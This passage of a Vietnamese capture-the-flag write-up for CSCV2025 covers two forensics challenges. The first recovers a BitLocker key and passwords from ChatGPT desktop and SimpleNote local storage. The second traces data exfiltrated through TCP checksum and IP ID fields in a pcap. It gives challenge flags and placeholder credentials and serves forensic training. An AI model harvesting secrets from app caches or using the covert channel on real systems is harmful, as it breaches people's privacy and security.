- Đây chưa phải là mật khẩu của ổ cứng mà là mật khẩu của file zip nào đó, tạm thời bây giờ chưa dùng đến nhưng cứ lưu lại

Cuối cùng là `ChatGPT`, tương tự như SimpleNote và các ứng dụng trong Windows Store khác, các cuộc trò chuyện của người dùng cũng được lưu tại `AppData\Packages\OpenAI.ChatGPT-Desktop_2p2nqsd0c76g0\LocalCache\Roaming\ChatGPT\IndexedDB\https_chatgpt.com_0.indexeddb.leveldb\000003.log`

Sau khi strings và tìm một hồi thấy người dùng đã hỏi câu sau:

```text
I've locked my drive with this bitlocker key 028853-431640-166364-032076-217943-045837-542388-281017 and put the key in my usb. If I lost my usb, and forget this key, is there anyway to recover the drive?
```

Vậy là đã có recovery key rồi: `028853-431640-166364-032076-217943-045837-542388-281017`, chọn `Enter recovery key` và mở khoá ổ cứng với key này

Ở trong có một file `secret.zip`, thử mở khoá với mật khẩu zip trong SimpleNote sẽ thành công `5525b8d2d8534b716467493f3660b11e1c44b22cd0c97275619b94a0e5c82fda`

Giải nén ra sẽ có một số file dữ liệu mật của công ty mà người dùng đang định bán và `ssh.txt` với nội dung

```text
# access via vpn or proxy if you are blocked
https://pastebin.com/WciYiDEs

cff4c6f0b68c31cb
```

`cff4c6f0b68c31cb` chính là mật khẩu của pastebin

```text
backup-server - 192.168.10.25
- username: admin
- password: F@keP@ss2025!
- service: MySQL
 
web-frontend - 192.168.10.50
- username: deploy
- password: W3bP@ss!8192
- service: Apache
 
log-collector - 192.168.10.77
- username: syslog
- password: L0gs2025#@@
- service: Graylog
 
dev-test - 192.168.12.23
- username: flag
- password: h3Y_Th!s_|5_jUs7_tH3_bE9IN|\|iNg_dc8fb5bdedd10877
- service: CSCV2025
```

Nội dung mật khẩu của người dùng `flag` chính là đáp án 

## Flag

> **CSCV2025{h3Y_Th!s_|5_jUs7_tH3_bE9IN|\|iNg_dc8fb5bdedd10877}**

# CovertS

>Dang, I left my computer unlocked, and my friend said he had exfiltrated something to his machine. Luckily, I was capturing the network traffic at the time. Please help me analyze it and find out what secret he took.
>
>- Challenge's Password: `b8ed43f0854df2ab42704968b88190b2db20e0de388fcce7e67ed99a475d93f4`
>
>**Bài cho ta một file pcap**

## Tóm tắt

Dữ liệu đã bị exfiltrate đến `192.168.192.1:3239`, nội dung được chia nhỏ và nằm trong trường `checksum` của các packet TCP(`tcp.checksum`) hoặc `ip.id` (Cả 2 giống nhau) 

## Phân tích

**Tổng hợp các giao thực được ghi lại trong file pcap**


PCAP rất lớn và rất nhiều IP khác nhau

Như mô tả thì người dùng đã bị exfiltrate cái gì đó qua máy của người khác. Trước hết ta sẽ cần xác định được IP của người dùng. Khá may trong pcap có lưu lại NTP

> The **Network Time Protocol** (**NTP**) is a [networking protocol](https://en.wikipedia.org/wiki/Networking_protocol) for [clock synchronization](https://en.wikipedia.org/wiki/Clock_synchronization) between computer systems over [packet-switched](https://en.wikipedia.org/wiki/Packet-switched), variable-[latency](https://en.wikipedia.org/wiki/Network_latency) data networks


Các gói tin client xuất phát từ IP `192.168.203.91` => Đây là IP của người dùng

Khi exfiltrate, để giảm khả năng bị phát hiện thì ta sẽ thường phải chia nhỏ file, dữ liệu ra cho nên sẽ cần rất nhiều packet. Từ đó ta loại bỏ được một số giao thức như `NTP`, `ARP`, `HTTP`, `UDP`

### ICMP

TIếp theo sẽ thử phân tích `ICMP` do giao thức này được sử dụng khá phổ biến khi thực hiện data exfiltration, các packet `ICMP` trong file được thực hiện giữa `192.168.203.91` và `42.96.60.40`

Sau một hồi kiểm tra thì lại không thấy có gì đặc biệt và dấu hiệu nào đáng ngờ cả. Về phần `data` của các packet thì chỉ là toàn bộ 512 kí tự `A`

Thử tiếp về thời gian giữa các packet. Không có sự lặp lại, các khoảng thời gian giữa 2 packet đều là ngẫu nhiên cũng không có gì lạ

Các trường khác thì không cho ra các đoạn dữ liệu consistent (Không dịch từ hex ra một kí tự ASCII đọc được). Có thể đã bị mã hoá nhưng tìm các tool trên mạng về ICMP exfiltration không có cái nào sử dụng key hay các loại mã hoá phổ biến, nếu mà là một loại custom do tác giả tạo thì cũng sẽ phải tìm được trong PCAP cũng như không có hint về key (HTTP chỉ có tải một số file từ server của ubuntu, các giao thức như QUIC hay TLS không tìm thấy và cũng không được cho đủ dữ kiện để giải mã) 

Không tìm được pattern nào hợp lí cả cho nên ta sẽ skip

### TCP 

Khi chuyển sang phân tích các packet TCP và UDP, ta sẽ sử dụng `Statistics/Conversations` trong wireshark để tiện phân tích 

Hầu hết đều giao tiếp qua HTTP và HTTPS (port 80, 443) nhưng sau đó có một đoạn rất lạ, khác hẳn so với những packet trước đó



Từ đoạn `192.168.192.1:3239`, từ IP của người dùng nhưng với rất nhiều port khác nhau, nhưng mỗi port đều gửi đến chung một địa chỉ và chỉ có đúng 1 packet. Rất đáng nghi cho nên ta sẽ filter `ip.src == 192.168.203.91 && ip.dst == 192.168.192.1 && tcp.dstport == 3239`và xuất ra để phân tích cho nhẹ (Chỉ có 608 packet)

Kiểm tra các packet lại thấy một điều lạ hơn nữa lạ hơn nữa là trường Identification (`ip.id`) của gói IP và checksum (`tcp.checksum`)của TCP đều giống nhau trong toàn bộ 608 packet. Điều này là rất khó bởi vì `ip.id` và `tcp.checksum` được tính toán khác nhau có thể 1 hoặc 2 packet trùng được nhưng đến 608 thì rất lạ

Tất cả đều có thể dịch ra các kí tự đọc được


Vậy có thể dữ liệu đã bị exfiltrate qua `192.168.192.1:3239`, nội dung được chia nhỏ và nằm trong trường `checksum` của các packet TCP(`tcp.checksum`) hoặc `ip.id` đều được

```bash
tshark -r challenge.pcapng -Y "ip.src == 192.168.203.91 && ip.dst == 192.168.192.1 && tcp.dstport == 3239" -T fields -e tcp.checksum > out.txt
```

Sau đó decode hex rồi decode Base64 sẽ ra dữ liệu bị exfiltrated

```text
Hello everyone,
How are you doing? A very warm welcome to CSCV2025!

I'm really glad to see you here and I hope you're ready for an exciting event ahead. This CTF is all about challenging your skills, learning new tricks, and of course - having fun along the way. Consider this little message not as a challenge itself, but simply as my way of saying hello to all of you amazing players.

Take a moment, get comfortable, and enjoy the ride. Whether you're here to compete fiercely, to learn something new, or just to have a good time, I hope CSCV2025 will be an unforgettable experience for you (not this challenge, pls forget this sh*t O_O)

And now, without keeping you waiting any longer...

(someone accidentally sent my chal via email so here is your new flag:)

CSCV2025{my_chal_got_leaked_before_the_contest_bruh_here_is_your_new_flag_b8891c4e147c452b8cc6642f10400452}

^_^ sry for the mess
```


## FLag


> **CSCV2025{my_chal_got_leaked_before_the_contest_bruh_here_is_your_new_flag_b8891c4e147c452b8cc6642f10400452}**
